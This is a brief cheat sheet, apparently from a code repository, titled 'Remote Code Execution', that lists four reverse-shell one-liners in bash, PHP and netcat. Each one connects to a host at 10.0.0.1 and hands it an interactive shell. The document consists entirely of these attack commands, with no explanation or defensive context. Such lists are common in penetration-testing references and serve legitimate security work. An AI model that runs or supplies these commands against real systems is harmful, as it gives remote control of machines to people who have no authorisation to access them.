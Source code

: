 # Remote Code Execution

## Get Reverse Shell
  - bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
  - php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
  - nc -e /bin/sh 10.0.0.1 1234
  - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 
